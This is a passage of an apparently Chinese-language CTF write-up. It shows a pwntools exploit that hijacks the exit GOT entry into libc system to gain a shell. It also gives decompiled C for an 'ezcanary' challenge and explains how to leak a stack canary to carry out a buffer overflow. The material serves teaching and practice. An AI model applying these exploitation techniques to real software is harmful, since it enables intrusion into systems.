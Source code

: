 ```python

io.recvuntil('>> ')
io.sendline('1')
io.recvuntil('id: ')
io.sendline(str(int((elf.got.exit-elf.sym.list)/8)))
io.recvuntil('name: ')
# 把 exit 劫持成 system
io.sendline(p64(libc.sym.system))

io.recvuntil('>> ')
io.sendline('8227')

io.interactive()
```

### [Week2] ezcanary

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+Fh] [rbp-21h]
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  bufinit(argc, argv, envp);
  puts("Ur name plz?");
  read(0, buf, 0x100uLL);
  printf("Hello, %s. Is that right?", buf);
  v4 = getchar();
  if ( v4 == 121 || v4 == 89 )
  {
    puts("Then new name plz.");
    read(0, buf, 0x100uLL);
    printf("Hello, %s.", buf);
  }
  puts("Wish you a wonderful day. Bye.");
  return 0;
}
```

题目开启了 Canary 保护，并且提供了后门函数。

Canary 保护在进入函数时会在 ebp 前方添加一个 8 字节的随机数，当程序将要返回时，会比对随机数是否发生改变。如果发生了改变，说明被栈溢出修改了 retn 地址，从而结束进程，保护程序。为了防止 Canary 被意外输出，随机数的最低位始终是 `\0`。因此，如果程序存在一次可以写入后读取的操作，就可以一直覆盖到 Canary 的第一个 `\0`，从而得到 Canary 值，进行栈溢出。

| Stack  |
| ------ |
| ...    |
| canary |
| ebp    |
| ...    |
